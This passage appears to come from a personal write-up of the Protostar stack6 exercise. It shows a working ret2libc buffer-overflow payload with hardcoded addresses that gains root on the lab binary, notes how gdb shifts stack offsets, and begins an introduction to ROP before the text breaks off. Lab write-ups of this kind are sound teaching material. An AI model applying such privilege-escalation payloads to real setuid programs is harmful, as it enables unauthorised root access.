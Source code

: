 And this is where things went wrong for me. Turns out, as described in [1], that gdb will setup some additional environment variables and that will impact the actual offsets of addresses on the stack when you run outside gdb. So whilst in GDB the address is `0xbffff808`, outside gdb it was `0xbffff7f8`. I found that pretty much by hand, by incrementing the pointer to my string by 10 bytes at a time - which was super tedious. Putting all of this together, we have:

```bash
$ python -c 'print "A" * 80 + "\xb0\xff\xec\xb7" + "\xc0\x60\xec\xb7" + "\xf8\xf7\xff\xbf" + "/usr/bin/id"'  | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAA����`�����/usr/bin/id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

Sweet! Since `/usr/bin/id` shows we are root, effectively any program we run will run as root. We can run any program we run as root by simply modifying our exploit to run our target binary instead of `/usr/bin/id` like this:

```bash
python -c 'print "A" * 80 + "\xb0\xff\xec\xb7" + "\xc0\x60\xec\xb7" + "\xf8\xf7\xff\xbf" + "/path/to/target"'
```

# Return Oriented Programming - ROP

## General Methodology

Right, time to get the big guns out! Before this challenge I had no idea how ROP worked and it still feels like it a bit, but now I have written one ROP-chain and I have found the many ways in which it can hurt you!

First off, some terminology:
* What is a gadget? It is a (usually) short sequence of assembly instructions, followed by a `ret` instruction.
* Why is this style of exploitation called ROP? because we make heavy use of the `ret` instruction.
* Why are we `ret`urning so much? 
* What is a ROP-chain? This is because we are chaining multiple gadgets togdther.
* Where are these gadgets? In memory because they are instructions already loaded in memory as part of the the binary's legitimate functionality. 

So in the simplest terms, ROP a shell-coding technique where various x86 instructions (gadgets) are stringed together using `ret` to jump to addresses found on the stack. This is feasible because once you have found the gadges you want to use, you push their addresses on stack as part of the input and then once the first gadget executes, it returns to the topmost address on the stack, causing execution to continue from the address of gadget 2, and then it return to the topmost address on the stack, causing gadget 3 to be executed, and so on. In essence your stack will mostly contain addresses and some data, but no shellcode. As an illustration:

```
 ________________ 
|  target buffer |
 ________________ < address of gadget 1
| return address |
 ________________ < address of gadget 2
| return address |
 ________________ < address of gadget 3
| return address |
 ________________
| other things   |
| that don't     |
| matter         |
```
